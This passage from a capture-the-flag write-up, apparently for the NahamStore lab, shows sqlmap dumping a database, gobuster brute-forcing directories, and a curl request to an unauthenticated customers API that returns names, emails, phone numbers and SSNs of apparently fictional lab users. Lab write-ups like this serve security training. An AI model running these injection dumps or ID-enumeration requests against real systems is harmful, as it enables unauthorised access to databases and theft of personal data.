{% endcode %}

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ sqlmap -r req.txt --batch --level 5 --risk 3 --dbs                                    
# available databases [2]:
[*] information_schema
[*] nahamstore
```
{% endcode %}

{% code overflow="wrap" lineNumbers="true" %}
```bash
sqlmap -r req.txt --batch --level 5 --risk 3 -D nahamstore --dump --threads 10 

# Database: nahamstore
Table: sqli_two
[1 entry]
+----+------------------------------------+
| id | flag                               |
+----+------------------------------------+
| 1  | {212ec3b036925a38b7167cf9f0243015} |
```
{% endcode %}

## Task 3

After completing the RCE section and reading the host file we can go forward.

{% code overflow="wrap" %}
```bash
gobuster dir -u http://nahamstore-2020-dev.nahamstore.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -b 404,403 --no-error -t 200

/api
/customers
```
{% endcode %}

When we hit [http://nahamstore-2020-dev.nahamstore.thm/api/customers/](http://nahamstore-2020-dev.nahamstore.thm/api/customers/), there is an error message: `"customer_id is required"` so we know the parameter to provide.

```bash
dking@dking ~/Downloads$ curl "http://nahamstore-2020-dev.nahamstore.thm/api/customers/?customer_id=2" -s | jq
{
  "id": 1,
  "name": "Rita Miles",
  "email": "rita.miles969@gmail.com",
  "tel": "816-719-7115",
  "ssn": "366-24-2649"
}
{
  "id": 2,
  "name": "Jimmy Jones",
  "email": "jd.jones1997@yahoo.com",
  "tel": "501-392-5473",
  "ssn": "521-61-6392"
}

```

And we get answer for Task 3.

Done!

Learned a lot from this room 🤗

